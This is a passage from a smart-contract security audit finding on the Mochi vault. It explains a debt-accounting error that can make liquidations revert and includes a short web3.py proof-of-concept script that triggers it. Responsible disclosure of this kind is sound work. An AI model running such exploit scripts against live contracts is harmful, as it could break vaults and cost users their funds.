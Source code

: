 However, when the contract records the total debt it uses `_amount` instead of `increasingDebt`.

    details[_id].debtIndex =
        (details[_id].debtIndex * (totalDebt)) /
        (details[_id].debt + _amount);
    details[_id].debt = totalDebt;
    details[_id].status = Status.Active;
    debts += _amount;

[MochiVault.sol L242-L249](https://github.com/code-423n4/2021-10-mochi/blob/main/projects/mochi-core/contracts/vault/MochiVault.sol#L242-L249)

The contract’s debt is inconsistent with the total sum of all users’ debt. The bias increases overtime and would break the vault at the end.

For simplicity, we assume there’s only one user in the vault. Example:

1.  User deposits 1.2 M worth of BTC and borrows 1M USDM.
2.  The user’s debt (`details[_id].debt`) would be 1.005 M as there’s a .5 percent fee.
3.  The contract’s debt is 1M.
4.  BTC price decrease by 20 percent
5.  The liquidator tries to liquidate the position.
6.  The liquidator repays 1.005 M and the contract tries to sub the debt by 1.005 M
7.  The transaction is reverted as `details[_id].debt -= _usdm;` would raise exception.

inaccurate accounting would lead to serious issues. I consider this a high-risk issue.

#### [](#proof-of-concept)Proof of Concept

This is a web3.py script that a liquidation may fail.

    deposit_amount = 10**18
    big_deposit = deposit_amount * 100000
    minter.functions.mint(user, big_deposit).transact()
    
    dai.functions.approve(vault.address, big_deposit + deposit_amount).transact()
    
    # create two positions
    vault.functions.mint(user, zero_address).transact()
    vault.functions.mint(user, zero_address).transact()
    
    # # borrow max amount
    vault.functions.increase(0, big_deposit, big_deposit, zero_address, '').transact()
    vault.functions.increase(1, deposit_amount, deposit_amount, zero_address, '').transact()
    
    vault_debt = vault.functions.debts().call()
    
    # ## This would clear out all debt in vault.
    repay_amount = vault_debt + 10**18
    usdm.functions.approve(vault.address, repay_amount).transact()
    
    vault.functions.repay(0, repay_amount).transact()
    